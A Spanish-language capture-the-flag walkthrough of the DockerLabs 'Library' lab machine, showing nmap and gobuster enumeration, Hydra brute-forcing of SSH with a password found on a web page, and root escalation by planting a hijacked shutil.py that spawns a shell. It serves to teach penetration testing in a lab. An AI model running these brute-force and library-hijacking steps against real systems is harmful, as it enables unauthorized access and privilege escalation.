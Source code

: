Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Library".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh library.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos: el 22 (SSH) y el 80 (HTML)
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña aun para atacar el puerto 22, vamos a probar poniendo la direccion IP en el navegador.

Sin embargo, aparece la tipica pagina de Apache, por lo que vamos a empezar haciendo un poco de FUZZING WEB con "gobuster":
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,html -t 20
```
Y vemos que nos devuelve la siguiente informacion:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
Si nos fijamos, hay un "/index.php" y un "/index.html" lo cual es curioso, asi que vamos a probar con ambos a ver que nos encontramos.

Con "/index.html" no hay nada interesante, ya que nos deja en la misma pagina que antes, pero con "/index.php", la cosa cambia ya que nos sale una cadena de caracteres:
```
JIFGHDS87GYDFIGD
```
Bien, probaremos entonces con fuerza bruta e HYDRA y/o MEDUSA para ver si podemos obtener el nombre de algun usuario, usando esta cadena de caracteres como "password":
```
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```
Vemos que hay un usuario que se llama "carlos" y cuya contraseña es la que hemos puesto antes: "JIFGHDS87GYDFIGD"
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
[STATUS] 306.00 tries/min, 306 tries in 00:01h, 8295150 to do in 451:49h, 15 active
```
Es momento de probar a entrar por SSH a ver si hay suerte:
```
ssh carlos@172.17.0.2
```
y tras darle que "yes" a las fingerprints e introducir la contraseña, ya estamos dentro:
```
carlos@c6c871fec19b:~$ whoami
carlos

carlos@c6c871fec19b:~$
```
En este momento, nos toca intentar hacer una escalada de privilegios con "sudo -l":
```
carlos@c6c871fec19b:~$ sudo -l

Matching Defaults entries for carlos on c6c871fec19b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User carlos may run the following commands on c6c871fec19b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
    
carlos@c6c871fec19b:~$
```
Bien, vamos a probar a hacer un pequeño "cat" a ese archivo "script.py" a ver que obtenemos:
```
cat /opt/script.py


import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)

```
Aqui podemos observar algo MUY curioso. Si nos fijamos en ese "import shutil", vemos que NO esta con su ruta absoluta.

-Vale, bien... y ¿que quiere decir esto?

-Pues quiere decir que como Python SIEMPRE busca primero en la carpeta donde se encuentra el archivo ".py", pues este ira a comprobar si existe esa libreria primero en la carpeta "/opt/" que es donde se encuentra el "script.py"

-¿Y.... ?

-Y... eso quiere decir que podemos intentar un "Python Library Hijacking".

-Ya... pero, ¿eso que es?

-Pues el metodo de explotación de “Python Library Hijacking”, consiste en suplantar una libreria de Python, que un binario este usando, para inyectar codigo de forma que el atacante escale privilegios y/u obtenga una "shell" en el sistema.

En este caso en concreto, lo que hariamos seria crear nuestro propio archivo "shutil.py", el cual dejaremos dentro de la carpeta "/opt/" y cuyo contenido sea:
```
import os
os.system("bash")
```
Una vez, hecho esto con "nano", por ejemplo, solo nos quedaria lanzar el "script.py" con el comando:
```
sudo python3 /opt/script.py  <== Ponemos SIEMPRE la ruta absoluta
```
Si ahora escrimos "whoami", veremos que hemos pasado de ser el usuario "carlos" a ser directamente el usuario "root":
```
carlos@c6c871fec19b:/opt$ sudo python3 /opt/script.py

root@c6c871fec19b:/opt# whoami
root

root@c6c871fec19b:/opt#
```
Y listo, la maquina estaria terminada.



